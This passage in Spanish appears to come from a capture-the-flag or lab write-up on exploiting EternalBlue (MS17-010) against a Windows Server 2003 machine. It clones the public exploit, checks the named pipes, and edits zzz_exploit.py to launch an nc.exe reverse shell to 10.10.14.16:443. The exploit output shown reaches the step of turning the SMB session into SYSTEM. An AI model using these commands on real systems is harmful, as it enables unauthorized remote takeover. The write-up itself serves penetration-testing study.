 Debido a la versión de sistema operativo y versión de la aplicación SMB, debemos estar pensando en el **Eternal Blue**; así que nos descargamos el exploit:

```bash
❯ git clone https://github.com/worawit/MS17-010
Clonando en 'MS17-010'...
remote: Enumerating objects: 183, done.
remote: Total 183 (delta 0), reused 0 (delta 0), pack-reused 183
Recibiendo objetos: 100% (183/183), 113.61 KiB | 765.00 KiB/s, listo.
Resolviendo deltas: 100% (102/102), listo.
```

Nos metemos en la carpeta y corremos el archivo `checker.py` para validar si la máquina es vulnerable:

```bash
❯ python checker.py 127.0.0.1
Target OS: Windows Server 2003 R2 3790 Service Pack 2
The target is not patched

=== Testing named pipes ===
spoolss: STATUS_OBJECT_NAME_NOT_FOUND
samr: Ok (32 bit)
netlogon: Ok (Bind context 1 rejected: provider_rejection; abstract_syntax_not_supported (this usually means the interface isn't listening on the given endpoint))
lsarpc: Ok (32 bit)
browser: STATUS_OBJECT_NAME_NOT_FOUND
```

Vemos que tiene la leyenda ***OK (32 bit)*** para los *named pipes* **samr** y **lsarpc**; es decir, podemos ejecutar el exploit en la máquina, que para este caso, ocuparemos el `zzz_exploit.py` modificandolo un poco. Las modificaciones que haremos serán las siguientes:

- En la función `def smb_pwn(conn, arch):` comentaremos las siguientes lineas:
  - \#print('creating file c:\\pwned.txt on the target')
  - \#tid2 = smbConn.connectTree('C$') 
  - \#fid2 = smbConn.createFile(tid2, '/pwned.txt')
  - \#smbConn.closeFile(tid2, fid2)
  - \#smbConn.disconnectTree(tid2)
 - Descomentamos la siguiente linea:
   - service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
 - Y la cambiamos a entablarnos una reverse shell con `nc.exe`:
   - service_exec(conn, r'cmd /c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.16 443')
 
Con esto**, lo único que nos falta es ponernos en escucha por e**l puerto 443 y ejectuar el exploit:

```bash
❯ python zzz_exploit.py 127.0.0.1 samr
Target OS: Windows Server 2003 R2 3790 Service Pack 2
Groom packets
attempt controlling next transaction on x64
attempt controlling next transaction on x86
success controlling one transaction
Target is x86
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x85119d48
SESSION: 0xe1278088
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe3054030
userAndGroupCount: 0x5
```